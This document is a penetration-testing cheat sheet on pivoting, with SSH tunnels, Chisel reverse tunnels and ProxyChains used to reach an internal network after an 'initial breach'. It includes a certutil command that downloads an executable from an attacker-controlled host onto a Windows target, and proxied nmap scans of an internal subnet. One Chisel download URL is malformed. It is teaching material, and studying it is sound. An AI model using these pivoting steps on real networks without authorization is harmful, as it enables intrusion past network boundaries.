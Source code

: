 ## 1. SSH Tunnels

### 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

### 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

#### 1.2.1. Forward static tunnel

##### Syntax

```sh
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-forward-static.png)

```sh
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

#### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

##### Syntax

```sh
ssh -D [bind_address:]port [user@]hostname
```

##### Example

![image](/images/ssh-forward-dynamic.png)

```sh
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

### 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

> [!Tip]
> 
> ##### For remote port forwarding:
> 
> - By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
> - Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces
>
> ```sh
> sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
> ```

#### 1.3.1. Reverse static tunnel

##### Syntax

```sh
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-reverse-static.png)

```sh
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

#### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

##### Syntax

```sh
ssh -R [bind_addr:]port [user@]hostname
```

##### Example

![image](/images/ssh-reverse-dynamic.png)

```sh
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

## 2. Chisel tunnels

> [!Tip]
>
> [Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

### 2.1. Preparing chisel binaries

Prepare server on Kali:


```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/downloadv$VERSION/chisel_${VERSION}_linux_amd64.gz
gzip -d chisel_${VERSION}_linux_amd64.gz
mv chisel_${VERSION}_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/download/v$VERSION/chisel_${VERSION}_windows_amd64.gz
gzip -d chisel_${VERSION}_windows_amd64.gz
mv chisel_${VERSION}_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```sh
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

### 2.2. Chisel server configuration

##### Syntax

```sh
chisel server --reverse --port <port>
```

##### Example

```sh
chisel server --reverse --port 8080
```

### 2.3. Chisel Client configuration

#### 2.3.1. Reverse port forwarding

##### Syntax

```sh
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

##### Example

![image](/images/chisel-reverse.png)

```sh
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

#### 2.3.2. Reverse SOCKS proxy

##### Syntax

```sh
chisel client <server> R:socks
```

##### Example

![image](/images/chisel-reverse-socks.png)

```sh
chisel client 192.168.2.61:8080 R:0.0.0.0:socks
```

## 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```sh
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```sh
proxychains -q nmap -Pn -sT -A 10.0.2.0/24
```

> [!Tip]
>
> 1. ProxyChains only work for TCP traffic, i.e. ICMP (ping, traceroute) and SYN (-sS) scans will not work over ProxyChains
> 2. nmap uses `-sS` by default, so the `-sT` option to use TCP Connect() scan is required
> 3. Use `-O -sV -sC` instead of `-A` to omit running traceroute
> 4. nmap scan may be crawlingly slow over ProxyChains, try to use the pivot box to scan instead
